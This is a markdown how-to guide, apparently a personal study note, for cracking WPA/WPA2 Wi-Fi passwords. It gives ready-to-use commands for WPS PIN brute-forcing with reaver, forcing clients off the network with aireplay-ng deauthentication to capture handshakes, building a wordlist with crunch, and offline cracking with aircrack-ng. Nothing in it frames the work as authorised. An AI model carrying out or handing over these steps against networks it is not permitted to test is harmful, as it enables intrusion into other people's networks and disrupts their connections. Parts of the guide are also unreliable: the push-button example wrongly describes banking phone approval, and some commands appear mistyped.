 ## WPA/WPA2 Cracking Guide

### Overview

- **WPA/WPA2** can be cracked using the same method.
- These protocols were developed to resolve security issues found in WEP, offering more robust protection.
- **Encryption:** Each packet in WPA/WPA2 is encrypted using a temporary key, making the data in individual packets less useful for attackers.

### WPS (Wi-Fi Protected Setup)

- **Purpose:** Allows devices to connect to a router without needing a password.
- **Authentication:** Uses an 8-digit PIN for authentication.
- **Vulnerability:** Attackers can try all possible PIN combinations in a relatively short time.
- **Cracking Process:** Once the PIN is cracked, WPS can be used to obtain the actual password.

#### Limitations:

- The method works only if the router is not configured to use push-button authentication.
- **Example of Push-Button Authentication:** A user logs into their online banking account, enters their username and password, and receives a push notification on their smartphone. They approve the login attempt by pressing "Approve" on their phone, completing the authentication process.

### Method for Cracking WPA/WPA2 via WPS

1. **Open Two Terminals**
    
2. **Set Wireless Adapter to Monitor Mode:**
    
    bash
    
    Copy code
    
    `ifconfig wlan0 down airmon-ng check kill           iwconfig wlan0 mode monitor ifconfig wlan0 up`
    
3. **Find Networks Using WPS:**
    
    bash
    
    Copy code
    
    `wash --interface wlan0`
    
    - This command will show all networks near you that use WPS.
4. **Initiate Fake Authentication:**
    
    bash
    
    Copy code
    
    `aireplay-ng --fakeauth 30 -a [BSSID] -h [Your Device’s MAC Address] wlan0`
    
    - `30` represents 30 seconds; this time can be adjusted.
    - Note: The router might lock after several failed attempts.
5. **Start Reaver (Brute Force Attack):** In the second terminal, run:
    
    bash
    
    Copy code
    
    `reaver --bssid [BSSID] --channel 11 --interface wlan0 --vvv --no-associate`
    
    - **Reaver** is a program that uses brute force to crack the WPS PIN.
    - `-vvv` option provides detailed output, helpful in troubleshooting.
    - `--no-associate` tells Reaver not to handle the association as it’s done manually.
6. **Final Step:**
    
    - Once everything is set up, press Enter in the second terminal to start the attack.
    - **Note:** This method may not work on newer routers, but it’s worth trying.

### Capturing the WPA/WPA2 Handshake

- **Fixing WEP Weakness:** WPA/WPA2 encrypts packets with temporary keys, making individual packets less useful for attackers.
- **Handshake Importance:** The handshake involves 4 packets sent to a client connecting to the network. It contains information that can be used to verify the password, but not any useful data.

#### Steps to Capture a Handshake:

1. **Set Wireless Adapter to Monitor Mode**
    
2. **Open Two Terminals**
    
3. **Monitor Network:**
    
    bash
    
    Copy code
    
    `airodump-ng wlan0`
    
    - Use this command to see nearby networks.
4. **Capture the Handshake:** In the first terminal, run:
    
    bash
    
    Copy code
    
    `airodump-ng -bssid [BSSID] --channel [Channel Number] --write handshake wlan0`
    
    - `--write handshake` saves the handshake data to a file.
5. **Deauthenticate a Client:** In the second terminal, run:
    
    bash
    
    Copy code
    
    `aireplay-ng --deauth 4 -a [BSSID] -c [Client’s MAC Address] wlan0`
    
    - This forces the client to reconnect, making it possible to capture the handshake.
    - The handshake will be displayed in the first terminal once captured.

#### Note:

- **Handshake Data:** The handshake does not contain any useful data itself. It’s only used to verify whether a password is correct or not.

### Creating a Wordlist for Password Cracking

- **Wordlists** are essential for penetration testing as they contain potential passwords.
    
- **Syntax for Creating a Wordlist Using Crunch:**
    
    bash
    
    Copy code
    
    `crunch [min-length] [max-length] -t [pattern] -o [filename]`
    
    - Example:
        
        bash
        
        Copy code
        
        `crunch 6 8 123abc$ -o wordlist.txt -t a99j`
        
        - This creates a wordlist with passwords ranging from 6 to 8 characters using the characters `123abc$` and saves it as `wordlist.txt`.
- **View the Wordlist:**
    
    bash
    
    Copy code
    
    `cat wordlist.txt`
    
    - This command displays the passwords in the wordlist.

### Cracking the WPA/WPA2 Password

1. **Using Aircrack-ng to Unpack the Handshake:**
    
    - The **MIC (Message Integrity Code)** is used by the access point to verify if a password is correct.
    - If the MIC generated using a potential password matches the MIC in the handshake, the password is correct.
2. **Run Aircrack-ng:**
    
    bash
    
    Copy code
    
    `aircrack-ng wpa_handshake-01.cap -w test.txt`
    
    - This command tests each password in the wordlist `test.txt` against the captured handshake.
    - The process repeats until the correct password is found.